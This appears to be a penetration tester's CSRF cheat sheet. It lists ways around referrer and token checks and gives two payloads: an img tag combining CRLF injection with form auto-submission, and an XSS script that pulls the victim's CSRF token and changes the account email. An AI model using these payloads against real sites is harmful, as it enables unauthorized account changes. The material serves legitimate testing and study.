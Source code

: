 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## First:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```http
Referrer-Policy: unsafe-url
```
Invalid referrer validation, so:
```html
<meta name="referrer" content="no-referrer">
```
## Then:
1) csrf without csrf protection.
2) csrf validation depends on request method  - Change post to get.
3) csrf delete csrf parameter and value.
4) csrf - drop request and test the token in other session.
5) csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key.
```html
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
```
6) csrf + xss
```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script> 
```


## Referrer:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
